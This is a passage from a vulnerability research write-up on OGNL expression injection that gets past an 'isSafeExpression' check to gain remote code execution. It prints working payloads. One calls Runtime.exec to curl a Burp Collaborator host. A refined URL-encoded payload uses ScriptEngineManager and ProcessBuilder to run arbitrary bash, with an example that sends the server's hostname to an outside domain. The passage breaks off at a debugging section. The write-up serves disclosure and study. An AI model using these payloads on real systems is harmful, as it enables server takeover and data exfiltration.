 ```
  #tag ( "Hidden" name="queryString" value="''+#{""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("curl <instance>.burpcollaborator.net")}+''" )
```

## Bonus - Better Payload

Though we got the code execution, there was a limitation on how the command is ran. The limitation is with `java.lang.Runtime.getRuntime().exec("String Command")` itself. Due to which we could not use redirections ( < > ) or Bash expansions like $() or `` or even operators like ;, |, &&, etc. 

To circumvant this we could have used overloaded exec method which takes array as an argument.

`java.lang.Runtime.getRuntime().exec(new String[]{{"/bin/bash","-c", "any linux command here"})`

But unfortunately `isSafeExpression` gets triggerd with the usage of `new String[]`. We spent a good amount of time creating java arrays with the help of Reflections API but no luck with this as well.

Finally we came across this elegant solution which make use of `javax.script.ScriptEngineManager` to execute java code in javascript syntax. More on this at [Beans Validation RCE by @pwntester](https://securitylab.github.com/research/bean-validation-RCE/)

Final payload with shell features:

`queryString=aaa\u0027%2b#{\u0022\u0022[\u0022class\u0022].forName(\u0022javax.script.ScriptEngineManager\u0022).newInstance().getEngineByName(\u0022js\u0022).eval(\u0022var x=new java.lang.ProcessBuilder;x.command([\u0027/bin/bash\u0027,\u0027-c\u0027,\u0027'.$cmd.'\u0027]);x.start()\u0022)}%2b\u0027`

Which gets deocoded to -

```
queryString=aaa'+
#{

""["class"].forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("var x=new java.lang.ProcessBuilder;x.command(['/bin/bash','-c','curl domain/$(hostname)']);x.start()");

}
+'
 ```

![image](https://user-images.githubusercontent.com/21000421/131549246-4c012906-80ac-481f-9c2d-42156751ce16.png)

## Bonus - Debugging

**Disclaimer - We couldn't determine where exactly the issue lies in code flow but here's our preliminary investigation**

To find how the OGNL expressions are parsed in our user input that goes inside the velocity template. We set a breakpoint on `isSafeExpression` to see how the call stack looks like.

From our understanding & debugging we came to this conclusion:

